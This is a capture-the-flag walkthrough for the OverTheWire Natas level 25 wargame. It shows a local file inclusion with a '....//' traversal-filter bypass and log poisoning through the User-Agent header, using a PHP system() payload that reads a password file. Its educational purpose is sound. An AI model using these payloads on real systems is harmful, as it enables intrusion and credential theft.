





# Natas Level 25 → Level 26

## Level Goal / Objective

Find the password for the next level.

🔗 https://overthewire.org/wargames/natas/natas25.html

## Tools You May Need

```text
Browser DevTools
Burp Suite
```

## Concept Focus

* Local File Inclusion (LFI)
* Directory Traversal Bypass
* Log Poisoning

## Approach

### 1. Access the Level

```text
http://natas25.natas.labs.overthewire.org/
```

Authenticate using previous credentials.

---

### 2. Review Source Code

Key observations:

- Uses a `safeinclude()` function
- Blocks directory traversal (`../`)
- Blocks access to `natas_webpass`
- Logs requests to a file based on `PHPSESSID`

---

### 3. Identify Log File Path

Log file structure:

```text
/var/www/natas/natas25/logs/natas25_<PHPSESSID>.log
```

The application operates in:

```text
/var/www/natas/natas25/language/
```

We must traverse up to reach `/logs/`.

---

### 4. Bypass Directory Traversal Filter

`../` is filtered, but this bypass works:

```text
....//logs/natas25_<PHPSESSID>.log
```

Exploit:

```text
http://natas25.natas.labs.overthewire.org/?lang=....//logs/natas25_<PHPSESSID>.log
```

---

### 5. Log Poisoning

Logs include:

- User-Agent header
- Custom message values

Inject PHP code via the **User-Agent** header:

```php
<?php system('cat /etc/natas_webpass/natas26'); ?>
```

Use Burp Suite to modify the request header before sending.

---

### 6. Execute Payload

After poisoning the log:

- Reload the LFI URL
- The log file is interpreted as PHP
- Payload executes and reveals the password

---

## Walkthrough (Screenshots)











---

## Password for Level 26

```text
cVXXwxMS3....
```

---

## Key Takeaways

* Directory traversal filters can often be bypassed with encoding tricks
* Log files can become execution vectors when combined with LFI
* User-controlled headers are powerful injection points
